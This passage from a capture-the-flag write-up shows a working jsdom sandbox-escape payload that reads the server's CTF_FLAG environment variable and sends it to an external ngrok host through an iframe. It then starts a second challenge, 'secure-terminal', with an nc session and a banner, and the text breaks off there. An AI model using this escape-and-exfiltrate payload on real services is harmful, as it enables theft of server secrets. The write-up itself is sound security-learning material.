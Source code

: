 The "User-Agent" contains "jsdom/16.5.3" - this hints that the backend uses [jsdom](https://github.com/jsdom/jsdom) to make a request. Searching Google for "jsdom escape" returns a link to [this GitHub issue](https://github.com/jsdom/jsdom/issues/2729), which thankfully provides a PoC.

The final payload, heavily inspired by the creator's writeup:

{% highlight html %}
<iframe id="exfil" src="https://eb9fabc4e699.ngrok.io/yaku"></iframe>
<script>
const outerRealmFunctionConstructor = Node.constructor;
const process = new outerRealmFunctionConstructor("return process")();

setTimeout(function() {
  exfil.src = "/" + JSON.stringify(process.env['CTF_FLAG']);
}, 2000);
</script>
{% endhighlight %}

The server seems not to allow 'simple' page redirection, so an iframe whose source would change needed to be used. Also, the `setTimeout` function ensures that the data exfiltration is attempted 2 seconds after the page loads.

**Flag:** CTF{0eb9773a98312eb761296040d885af9a0201e84f524a68eaea33cb3a8e707055}


## secure-terminal {#secure-terminal}

{% highlight bash %}
My company wanted to buy Secure Terminal PRO, but their payment system seems down. I have to use the PRO version tomorrow - can you please find a way to read flag.txt?

Format flag: CTF{sha256}
{% endhighlight %}

This was one of my challnenges. Let's connect to the provided address and test out all options:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-ind$ nc 34.89.172.250 30882
 #####                                                          
#     # ######  ####  #    # #####  ######                      
#       #      #    # #    # #    # #                           
 #####  #####  #      #    # #    # #####                       
      # #      #      #    # #####  #                           
#     # #      #    # #    # #   #  #                           
 #####  ######  ####   ####  #    # ######                      
            #######                                             
               #    ###### #####  #    # # #    #   ##   #      
               #    #      #    # ##  ## # ##   #  #  #  #      
               #    #####  #    # # ## # # # #  # #    # #      
               #    #      #####  #    # # #  # # ###### #      
               #    #      #   #  #    # # #   ## #    # #      